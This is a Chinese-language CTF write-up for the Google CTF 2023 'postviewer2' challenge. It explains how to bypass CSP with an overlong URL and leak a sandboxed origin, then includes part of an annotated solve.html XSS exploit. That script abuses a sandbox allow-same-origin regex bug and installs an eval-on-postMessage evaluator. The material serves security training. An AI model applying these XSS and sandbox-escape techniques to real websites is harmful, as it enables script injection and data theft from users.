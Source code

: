 现在就是要泄露`*`的内容。我们知道flag.txt的url肯定是`https://postviewer2-web.2023.ctfcompetition.com/#file-87ebbc317d687eeff47403603cc6dfb9b7d6c817`（`https://postviewer2-web.2023.ctfcompetition.com/#file-`加上flag.txt的sha1，页面的文件处理逻辑里有）。然后在preview这个文件时会有个包含flag.txt的iframe的shim.html弹出来，我们要泄露它的origin（`*`的内容）。有了这个origin就有了完整的shim.html url：`<leaked_origin>/shim.html`，去那里嵌入xss payload，然后在那里访问里面的那个iframe（这里没有限制。shim.html虽然也是个iframe但是没有sandbox，只有它里面那个套娃的iframe有），获取包含flag的`blob:`url，fetch得到flag。

但是呢有点问题。用bp抓个包，访问首页就能看见csp了：`Content-Security-Policy: frame-ancestors *.postviewer2-web.2023.ctfcompetition.com`。frame-ancestors指定可嵌入当前页面的父页面，这种情况表示只能是来自`*.postviewer2-web.2023.ctfcompetition.com`域的页面才能嵌入当前页面。所以没法在自己的网站嵌入这个iframe了。解决办法是嵌入到`sbx-anything.postviewer2-web.2023.ctfcompetition.com`。

别忘了我们的目标是去shim.html嵌入xss payload。去看看`sbx-*.postviewer2-web.2023.ctfcompetition.com/shim.html`的csp:`Content-Security-Policy: frame-src blob:`，寄。frame-src要求嵌入的iframe的来源为`blob:`，所以没法嵌入什么有用的东西。也没法通过访问不存在的页面获得更松的csp，甚至更严了：`sbx-anything.postviewer2-web.2023.ctfcompetition.com/not-found`会返回`Content-Security-Policy: default-src 'none'`

绕过方法参考这篇[文章](https://terjanq.medium.com/arbitrary-parentheses-less-xss-e4a1cf37c13d)。目标是在`sbx-*.postviewer2-web.2023.ctfcompetition.com`找到个没有csp的子页面执行xss payload，一个小技巧是尝试打开一个非常长的url，比如`sbx-anything.postviewer2-web.2023.ctfcompetition.com/AAAAA....AAA`，so this url will be blocked on the intermediate proxy side because of the overlong headers。

最后就是solve.html的笔记了。
```html
<script>
    (async () => {
        function formsg(msg) { //这个函数返回一个Promise，并设置onmessage事件。当接收到的message等于参数提供的msg时，resolve promise。调用这个函数formsg('a')等于暂停程序执行直到接收到a
            return new Promise(resolve => {
                onmessage = e => {
                    if (e.data == msg) resolve();
                }
            });
        }

        const sleep = d => new Promise(r => setTimeout(r, d));

        var ifr1 = document.createElement('iframe');
        ifr1.src = 'https://sbx-random.postviewer2-web.2023.ctfcompetition.com/shim.html?o=' + encodeURIComponent(window.origin); //encodeURIComponent()：encodes a Uniform Resource Identifier (URI) component by replacing certain characters with their percent-encoded representation
        document.body.appendChild(ifr1); //创建一个ifr1 iframe，iframe的来源为https://sbx-random.postviewer2-web.2023.ctfcompetition.com/shim.html?o=' + encodeURIComponent(window.origin); ，并将ifr1添加到当前document

        /**     
         * Step 1: 
         * the very first bug is that we can load shim.html with allow-same-origin flag
         * that is because, the regex has a global flag which increases lastIndex after first find.
         * It set ups an evaluator on sbx-random suborigin
         */

        ifr1.onload = () => {
            //向contentWindow，也就是shim.html postMessage
            //根据shim.html的内容，这里body的代码会成为shim.html创建的iframe中的内容。里面top.postMessage中的top指的是the highest-level window or frame in a nested browsing context hierarchy，即solve.html
            ifr1.contentWindow.postMessage({ body: `<script>onmessage=e=>eval(e.data);<\/script><iframe onload=top.postMessage('loaded','*')>`, mimeType: 'text/html', sandbox: ['allow-same-origin', 'allow-same-origin', 'allow-scripts', 'allow-top-navigation'] }, '*');
        }
        //top.postMessage post到这里，所以我们使用formsg等待其post完成后再继续执行
        await formsg('loaded');
        const deepIfr = ifr1.contentWindow[0][0] //这个是我们在postMessage那里的body里写的那个iframe

        /**
         * Step 2:
         * We prepare a deepIframe that will later used redirect top window to blob://sbx-random
         */

```